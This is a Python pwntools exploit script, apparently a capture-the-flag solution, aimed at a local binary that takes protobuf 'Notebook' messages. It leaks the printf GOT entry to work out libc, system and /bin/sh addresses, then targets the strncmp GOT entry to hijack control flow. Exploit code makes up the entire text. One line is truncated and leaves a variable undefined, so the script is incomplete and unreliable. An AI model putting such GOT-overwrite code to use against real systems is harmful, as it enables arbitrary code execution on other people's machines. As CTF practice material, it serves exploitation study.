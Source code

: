 ```
uu64 = lambda data: u64(data.ljust(8, '\0'))
leak = lambda name, addr: log.success('{} = {:#x}'.format(name, addr))
 
 
if __name__ == '__main__':
    pwn_arch ='amd64'
    duchao_pwn_script.init_pwn_linux(pwn_arch)
    pwnfile = './pwn'
    ip_port = '192.168.30.146:10002'
    __ip = ip_port.split(":")[0]
    __port = ip_port.split(":")[1]
    io = process(pwnfile)
    # io = remote(__ip, __port)
    elf = ELF(pwnfile)
    # rop = ROP(pwnfile)
    context.binary = pwnfile
    libcfile = "/lib/x86_64-linux-gnu/libc.so.6"
    libc=ELF(libcfile)
     
 
    pop_rdi_ret = 0x000000000040c693
    # puts_sym=elf.sym["puts"]
    printf_got = elf.got["printf"]
    strncmp_got = elf.got["strncmp"]
 
 
    Notebook_1 = test_pb2.Notebook()
    note_1 = test_pb2.Note()
    note_2 = test_pb2.Note()
    note_1.name = "note_1"
    note_1.addr = printf_got
    note_1.offset = 2
    note_1.choice = 1
 
    Notebook_1.note.append(note_1)
 
    ru("Hello Pls input: ")
    s(Notebook_1.SerializeToString())
    ru("file size\n")
    s(str(len(Notebook_1.SerializeToString())))
 
    leak_func_addr = u64(r(6).ljust(8,b"\x00"))
    leak_func_
    system_addr, binsh_addr = duchao_pwn_script.libcsearch_sys_sh(leak_func_name, leak_func_addr,path=libcfile)
    libc_base_addr = system_addr-libc.sym["system"]
    print("libc_base_addr is",hex(libc_base_addr))
    print("system_addr is",hex(system_addr))
    print("binsh_addr is",hex(binsh_addr))
 
    Notebook_2 = test_pb2.Notebook()
    note_2 = test_pb2.Note()
    note_2.name = "note_2"
    note_2.addr = strncmp_got
    note_2.offset = 2
    note_2.choice = 2
 
    Notebook_2.note.append(note_2)
    ru("Hello Pls input: ")
    s(Notebook_2.SerializeToString())
    ru("file size\n")
    s(str(len(Notebook_2.SerializeToString())))
 
```